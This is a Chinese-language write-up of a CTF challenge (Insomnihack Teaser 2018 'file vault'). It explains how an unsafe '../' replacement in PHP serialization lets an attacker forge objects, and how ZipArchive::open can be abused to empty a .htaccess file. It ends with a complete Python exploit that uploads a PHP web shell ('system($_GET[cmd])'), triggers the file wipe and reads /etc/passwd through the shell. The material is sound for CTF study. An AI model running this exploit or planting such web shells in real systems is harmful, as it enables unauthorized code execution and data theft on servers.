 #### writeup 

[https://www.jianshu.com/p/972327151eff](https://www.jianshu.com/p/972327151eff)
[https://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault](https://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault)


题目的源码就不再解释了，题目的核心是为了造成任意的php的类伪造。导致任意类反序列化。

#### 0x1 任意对象伪造 

有问题的代码如下：

```php
function myserialize($a, $secret) {
    $b = str_replace("../","./", serialize($a)); 
    return $b.hash_hmac('sha256', $b, $secret); 
}
```

这里会将序列化之后的数据中的 `../` 替换为 `./`， 
如果我们的文件名中含有 `../` 经过替换，就会导致字符串长度不一致跟实际长度不一致，最后导致反序列失败。 

比如有这么一个序列化后的字符串

```php
a:2:{i:0;s:3:"../";i:1;s:5:"hello";}
```
替换之后就变成了

```php
a:2:{i:0;s:3:"./";i:1;s:5:"hello";}
```

这就会导致反序列化之后，向后面吞掉一个字符。如果合理的控制 `../` 的个数，
向后面吞掉适当的字符数量，就必然存在可能反序列化成功的情况。

比如下面的测试代码：

```php
function myserialize($a) {
    $b = str_replace("../","./", serialize($a)); 
    return $b; 
}
$tmp = "";
for($i =0 ; $i<11;$i++){
    $tmp .= "../";
}
$a = array(
    0=>$tmp,
    1=>";i:1;s:1:\"1"
    );

$se = myserialize($a);
var_dump(unserialize($se));
```
可以看到利用向后面吞掉字符的技巧，就可以成功的伪造出我们想要的数据。 


#### 0x2 到底该伪造什么 

回到题目中，我们可以上传两个文件,拿到的cookie可能是：

```
a:2:{i:0;O:10:"UploadFile":2:{s:8:"fakename";s:5:"2.png";s:8:"realname";s:44:"3e9ddc78608fad8c0be6ec1847976e78b77e1404.png";}i:1;O:10:"UploadFile":2:{s:8:"fakename";s:7:"show2.c";s:8:"realname";s:42:"1c64b2c6998470bc208e487a1b688665b0d7a7df.c";}}390aefd071fc674f5207e3ac2afdf066397a232174dad7929e7b5874a9a1ae00
```

我们可以在第一个文件的 fakename 处注入 `../` ,在序列化之后，就会向后面覆盖字符，我们可以让他一直覆盖到第二个文件的fakename的位置，在第二个文件的 fakename 中注入我们需要构造的对象，然后反序列化之后，就会拿到我们想要伪造的对象了。 

但是需要构造什么对象呢？`UploadFile` 这个类里面啥可用的魔术方法都没有，伪造这个类的数据没有什么用处。

读一下代码，发现进行反序列化之后，进行函数调用的点只有一个：

```php
    case 'open':
        $files = myunserialize($_COOKIE['files'], $secret);
        if(isset($files[$_GET['i']])){
            echo $files[$_GET['i']]->open($files[$_GET['i']]->fakename, $files[$_GET['i']]->realname);
        }
        exit;
```

只有这里有函数调用，调用了open函数，因为伪造题目的类没有用，那就想能不能伪造含有open函数的php的内置类，干一些事情呢？
列出一下php的内置类：

```php
foreach (get_declared_classes() as $class) {
    foreach (get_class_methods($class) as $method) {
      if ($method == "open")
        echo "$class->$method\n";
    }
  }
```
找到系统中存在的4个类：

```
SQLite3->open
SessionHandler->open
XMLReader->open
ZipArchive->open
```

回到题目中，因为题目中的 .htaccess 存在，导致我们没法 getshell ，如果可以把这个文件删除了，就可以直接getshell。

看到 ZipArchive::open函数的文档:

[http://php.net/manual/en/ziparchive.open.php](http://php.net/manual/en/ziparchive.open.php)

flags 参数 ：

```
flags
The mode to use to open the archive.
ZipArchive::OVERWRITE
ZipArchive::CREATE
ZipArchive::EXCL
ZipArchive::CHECKCONS
```
当flags参数是 `ZipArchive::OVERWRITE |  ZipArchive::CREATE`  也就是 9 的时候，会覆盖一个旧的文件，并且内容是空，
可以利用这个来删除 .htaccess 文件的内容。

最后利用的exp是：

```python
#!/usr/bin/env python2

import requests
import urllib

URL = "http://your-ip:8088/"
s = requests.Session()

def upload(name, content="GARBAGE"):
    files = {'file': (name, content)}
    params = { "action" : "upload" }
    s.post(URL, params=params, files=files)
def rename(index, new_name):
    data = { "newname" : new_name }
    params = {
        "action" : "changename",
        "i" : index
    }
    s.post(URL, params=params, data=data)

def open_file(index):
    params = {
        "action" : "open",
        "i" : index
    }
    return s.get(URL, params=params).text

newname = "../" * 117 # To overwrite fakename #2
serialized_injection = '";s:1:"e";s:0:"";}i:1;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/fee5a18a21f9783a438428dfe0e0e2dbc4d33d2f/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'

# Upload 2 files
upload("A")
upload("B")

# Rename to inject serialized ZipArchiver
rename(1, serialized_injection)
rename(0, newname)

print " === Cookie === "
print urllib.unquote(s.cookies['files'])

# Upload a shell
upload("shell.php", "<?php system($_GET[cmd]); ?>")

# Cookie received

# Trigger .htaccess removal
open_file(1)

shell_url = URL + "sandbox/fee5a18a21f9783a438428dfe0e0e2dbc4d33d2f/fe95113d494997061044e7142af542e84f3eebbf.php"

response = requests.get(shell_url, params={"cmd" : "cat /etc/passwd"})
flag = response.text
print flag
```









